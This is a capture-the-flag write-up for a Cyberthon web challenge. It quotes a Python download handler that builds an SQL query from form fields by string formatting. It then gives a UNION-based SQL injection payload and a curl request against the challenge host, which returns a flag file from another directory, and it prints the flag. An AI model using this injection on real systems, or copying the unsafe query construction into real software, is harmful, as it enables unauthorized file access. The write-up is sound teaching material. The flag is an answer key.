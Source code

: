 ```yaml
---
ai_date: '2025-04-27 05:12:02'
ai_summary: SQL Injection vulnerability allows retrieving the 'flag.jpg' from the
  dogs directory
ai_tags:
- sql
- injection
- rce
created: 2024-06-11T01:33
updated: 2024-06-11T01:35
---
```


> APOCALYPSE has recently started a new business venture, a website for people to download cute images of cats! While
> that seems like a relatively normal kind of business, our intel says that it might be more than what it appears to be.
> So we've got to keep a close eye on it. Currently, their service has only cat pictures.
>
> However rumors are going around that they're venturing into dogs very soon. Could u confirm the rumour for me?

Ignoring much of the code, we can find the important stuff here

```python
assert os.path.exists("/app/images/dogs/flag.jpg")


async def download(request: Request):
    form = {**(await request.form())}
    query = {"is_public": "yes"}
    if form.get("species") is None: return "Fail"
    form["species"] = hashlib.md5(form["species"].encode()).hexdigest()
    query.update(form)
    result = await database.fetch_one(
        query="SELECT filename FROM cats WHERE is_public='{is_public}' AND species='{species}'".format(**query)
    )
    if not result or ".." in result["filename"]: return "Fail"
    return FileResponse(os.path.join("/app", "images", "cats", result["filename"]))
```

We have to send the flag from `/app/images/dogs/flag.jpg`, so the SQL query just have to return that value.

```sql
SELECT filename
FROM cats
WHERE is_public = '{is_public}'
  AND species = '{species}'
```

With some simple SQL injection

```python
species="tabby"
is_public="true' AND 1=2 UNION SELECT '/app/images/dogs/flag.jpg' --"
```

It becomes

```sql
SELECT filename
FROM cats
WHERE is_public = 'true'
  AND 1 = 2
UNION
SELECT '/app/images/dogs/flag.jpg' --' AND species='[some hash]'
```

Thus we form the request

```bash
## Only Cats
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40501/download/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "species=tabby" \
     --data-urlencode "is_public=true' AND 1=2 UNION SELECT '/app/images/dogs/flag.jpg' --"
```

![img.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718084106/2024/06/82e66c049de002219a3ee9a267cfa0a6.png)

And heres our flag

```flag
Cyberthon{why_15_1t_4Lw4y5_d0g}
```